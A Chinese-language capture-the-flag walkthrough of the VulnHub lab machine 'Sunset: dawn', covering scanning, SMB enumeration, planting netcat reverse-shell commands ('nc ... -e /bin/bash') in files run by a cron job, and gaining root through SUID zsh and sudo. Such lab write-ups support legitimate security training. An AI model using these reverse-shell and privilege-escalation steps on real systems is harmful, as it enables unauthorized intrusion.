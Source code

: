 

# Sunset: dawn

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：dawn（IP：192.168.56.105）

下载：https://www.vulnhub.com/entry/sunset-dawn,341/

## Let's go

```
nmap -A 192.168.56.105
```

![](./img/Sunset：dawn-01.png)

> **浏览网页并没有发现什么信息，我们进行枚举**

```
dirb http://192.168.56.105/
```

![](./img/Sunset：dawn-02.png)

![](./img/Sunset：dawn-03.png)

> **只有 management.log 允许查看，我们将他保存下来**

```
cat ./下载/management.log
```

![](./img/Sunset：dawn-04.png)

> **我们得到一些有价值的信息**
>
> 用户：dawn，ganimedes
>
> dawn下有一个ITDEPT目录
>
> 定时计划：product-control，web-control，phobos

```
enum4linux -a 192.168.56.105
```

![](./img/Sunset：dawn-05.png)

![](./img/Sunset：dawn-06.png)

> **和我们上面得到的信息联系起来了，所有出口一定在这里**

```
smbclient //192.168.56.105/ITDEPT		#使用SMB访问ITDEPT目录
```

![](./img/Sunset：dawn-07.png)

> **并没有发现 product-control，web-control 两个文件，我们可以尝试上传这两个文件等待定时计划执行**

```
echo 'nc -nv 192.168.56.102 4444 -e /bin/bash' > product-control
echo 'nc -nv 192.168.56.102 4445 -e /bin/bash' > web-control
put product-control
put web-control
```

![](./img/Sunset：dawn-08.png)

```
#监听等待
nc -lp 4444
nc -lp 4445
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](./img/Sunset：dawn-09.png)

![](./img/Sunset：dawn-10.png)

```
find / -perm -u=s -type f 2>/dev/null
zsh
cat /root/flag.txt
```

![](./img/Sunset：dawn-11.png)

![](./img/Sunset：dawn-13.png)

```
sudo -l
sudo sudo -s
cat /root/flag.txt
```

![](./img/Sunset：dawn-12.png)